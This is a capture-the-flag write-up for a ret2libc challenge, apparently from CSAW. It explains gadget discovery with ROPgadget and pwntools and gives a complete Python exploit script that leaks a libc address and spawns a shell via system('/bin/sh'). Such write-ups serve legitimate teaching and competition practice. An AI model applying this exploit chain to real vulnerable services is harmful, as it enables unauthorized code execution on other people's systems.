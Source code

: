 ## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Original Script

```
from pwn import *
from Crypto.Util.number import *

#p = remote('pwn.chal.csaw.io', 5016)
p = process("rop")
libc = ELF("libc.so.6")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
